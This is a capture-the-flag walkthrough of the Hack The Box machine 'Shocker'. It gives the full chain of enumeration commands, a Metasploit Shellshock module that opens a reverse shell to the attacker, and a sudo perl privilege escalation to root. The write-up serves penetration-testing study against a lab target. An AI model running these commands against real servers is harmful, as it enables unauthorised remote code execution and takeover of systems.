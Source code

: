 ```yaml
---
description: Walkthrough (Easy)
---
```


# Shocker 🟢🟢🟢

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.

[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)&#x20;

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.56 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Found http and ssh in 2222 port open.
* Lets try 1st for Directory busting.

### Directory Fuzzing

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/wordlists/SecLists/Discovery/Web-Content/common.txt
```
{% endcode %}

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

* Found intresting directory cgi-bin and searched about it in google about cgi-bin exploit

### Shellshock Remote Command Injection

Shellshock is a critical bug in Bash versions 1.0.3 - 4.3 that can enable an attacker to execute arbitrary commands.

Vulnerable versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

* Got to know that cgi-bin runs many bash scripts on web servers.&#x20;
* By using that scripts we can get a Reverse shell, so lets find find that bash script in cgi-bin

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .sh
```
{% endcode %}

```bash
/user.sh              (Status: 200) [Size: 118]
```

* Found user.sh script (cat)

```bash
Content-Type: text/plain

Just an uptime test script

 06:22:41 up  1:32,  0 users,  load average: 0.20, 0.06, 0.02
```

* This script is cheking the uptime of a linux machine.

### Metasploit

```bash
msfconsole
> search shellshock
> use multi/http/apache_mod_cgi_bash_env_exec
> set rhosts 10.10.10.56
> set lhost tun0
> set targeturi /cgi-bin/user.sh
> run
```

* Got a meterpreter Shell upgrade shell by typing `shell`
* `python3 -c 'import pty; pty.spawn("/bin/bash")'`    get fully tty shell
* You will find `user.txt` in `/home/shelly/user.txt`

### Previlage Esculation getting Root

`sudo -l`

```bash
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Found that user can run perl command without root password as a sudo user.

* Go to `gtfobins` and Found sudo for perl [here](https://gtfobins.github.io/gtfobins/perl/)

```bash
sudo perl -e 'exec "/bin/sh";'
```

* after running this command you get a root shell :)

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
